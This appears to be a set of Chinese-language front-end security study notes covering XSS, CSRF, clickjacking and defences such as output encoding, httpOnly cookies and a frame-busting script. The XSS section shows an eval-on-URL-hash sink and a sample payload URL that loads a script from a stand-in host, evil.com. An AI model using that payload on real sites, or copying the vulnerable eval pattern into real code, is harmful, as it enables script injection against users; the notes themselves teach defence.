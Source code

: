   - XSS 跨站点脚本攻击

    - 同源策略没有限制页面中加载第三方的脚本
    - 尽一切方法在目标网站上执行非目标网站上原有的脚本

```javascript
        <script>
            eval(location.hash.substr(1));
        </script>

        http://host/test.html#document.write("<script/src=//www.evil.com/evil.com/evil/js></script>")
```

- CSRF 跨站点请求伪造 请求来源于其他网站

```javascript
    http:www.a,com/del?id=21
```

- 界面操作劫持

  - 点击劫持
  - 拖放劫持
  - eg. 可见输入框内覆盖一个不可见的框

```javascript
        filter: alpha(opacity=0);
        opacity: 0;
        z-index: 100
```

- 不要轻易相信任何外部传入的数据

  - 不要轻易信任用户输入的数据 -> 数据过滤

    - Jq中$('').text() 而非 html()
    - 使用$('').attr() css()
    - URL -> encodeURL
    - jqencoder
    - setTimeout setInterval eval 这些函数都有安全隐患

  - 不要轻易信任任何传入的第三方数据

    - JSONP 一定要检查从第三方返回的数据格式

  - 不要仅靠JS来阻止注入

- 其他前端安全防范实践

  - cookie 设置为httpOnly

    - XSS不能通过JS获取Cookie
    - h5的localStorage
    - SSL 启用cookie的Secure设置

  - 防止网页被其他网站内嵌为iframe

    - JS阻止

```javascript
        <style id="antiClickjack">body{display:none !important; }<style>

        <script>
        if(self === top) {
            var antiClickjack = document.getElementById('antiClickjack');
            antiClickjack.parentNode.removeChild(antiClickjack);
        } else {
            top.location = self.location;
        }
        </script>
        // 首先设置不可见
        // 如果没有被内嵌移除不可见样式
```